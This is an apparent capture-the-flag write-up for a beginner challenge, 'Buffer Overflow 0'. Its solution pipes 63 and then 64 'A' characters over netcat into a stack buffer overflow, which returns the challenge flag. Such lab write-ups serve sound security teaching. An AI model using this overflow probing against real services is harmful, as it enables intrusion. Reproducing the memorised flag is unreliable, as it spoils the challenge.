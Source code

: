 Buffer Overflow 0
10

Exploit a stack based buffer overflow to get the flag.

nc basic_overflow_0.chals.fuzzy.land 5101


Solution
========

user@a6e0af5953ca ~ $ python -c 'print "A"*63' | nc basic_overflow_0.chals.fuzzy.land 5101
Nope! Needs a little more juice!
user@a6e0af5953ca ~ $ python -c 'print "A"*64' | nc basic_overflow_0.chals.fuzzy.land 5101
There you go:
 LosCTF{buff3r_0verfl00000000000000000000000w_4nd_n0w_a_fl4g}
